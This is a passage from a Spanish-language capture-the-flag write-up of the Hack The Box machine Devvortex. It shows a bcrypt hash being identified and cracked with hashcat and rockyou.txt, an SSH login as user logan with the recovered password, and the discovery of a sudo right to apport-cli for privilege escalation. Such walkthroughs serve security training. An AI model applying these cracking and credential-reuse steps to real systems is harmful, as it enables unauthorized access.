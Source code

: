 Verificamos que el hash se trata de un hash tipo `Blowfish`, intentamos crackear este hash a través de `hashcat` y verificamos que logramos obtener la contraseña en texto plano.

```bash
❯ hashid '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
Analyzing '$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5891 MB (1024 MB allocatable), 8MCU


$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```

Intentaremos acceder con estas nuevas credenciales mediante SSH, logramos el acceso y visualizar la flag de **user.txt**.

```bash
❯ ssh logan@devvortex.htb
The authenticity of host 'devvortex.htb (10.10.11.242)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:18: [hashed name]
    ~/.ssh/known_hosts:29: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'devvortex.htb' (ED25519) to the list of known hosts.
logan@devvortex.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)


Last login: Mon Feb 26 14:44:38 2024 from 10.10.14.23
logan@devvortex:~$ cat user.txt 
272c6688bdf7********************
```

## Privilege Escalation

### Abusing sudoers privilege (apport-cli)

Al revisar si el usuario actual `logan` disponía de algún permiso de `sudoers`, nos encontramos que puede ejecutar como usuario `sudo` el binario `/usr/bin/apport-cli`

```bash
logan@devvortex:~$ sudo -l
[sudo] password for logan: 
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```
